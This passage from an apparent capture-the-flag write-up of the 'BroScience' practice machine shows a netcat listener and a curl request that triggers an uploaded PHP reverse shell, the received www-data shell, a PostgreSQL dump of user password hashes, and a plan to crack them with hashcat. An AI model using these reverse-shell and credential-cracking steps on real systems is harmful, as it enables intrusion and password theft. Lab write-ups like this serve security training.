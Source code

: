 Set up a netcat listener:
```bash
$ nc -lvnp 1234                                 
listening on [any] 1234 ..

```
Invoke the shell.php on the broscience server:
```bash
$ curl -k https://broscience.htb/rev.php
```

 ## Privelege Escalation
 We got the shell.

 ```bash
nc -lvnp 1234                                 
listening on [any] 1234 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.11.195] 56552
bash: cannot set terminal process group (1228): Inappropriate ioctl for device
bash: no job control in this shell
www-data@broscience:/var/www/html$ whoami
www-data
```

We can now query the database and try to get bills password. We can use `\d` to describe all tables and schema in the database.
```bash
www-data@broscience:/var/www/html$ psql -h localhost -d broscience -U dbuser -W
</html$ psql -h localhost -d broscience -U dbuser -W
Password: **REDACTED**

\d
                List of relations
 Schema |       Name       |   Type   |  Owner   
--------+------------------+----------+----------
 public | comments         | table    | postgres
 public | comments_id_seq  | sequence | postgres
 public | exercises        | table    | postgres
 public | exercises_id_seq | sequence | postgres
 public | users            | table    | postgres
 public | users_id_seq     | sequence | postgres
(6 rows)

select * from users;

administrator:15657792073e8a843d4f91fc403454e1 
bill:13edad4932da9dbb57d9cd15b66ed104
michael:bd3dad50e2d578ecba87d5fa15ca5f85 
john:a7eed23a7be6fe0d765197b1027453fe 
dmytro:5d15340bded5b9395d5d14b9c21bc82b 
```

We know the passwords are salted so I first tried to create a file with the hashes in the format: `hash:salt`. Then use `hashcat` in the mode `-m 20` which is `md5($salt.$pass)`.
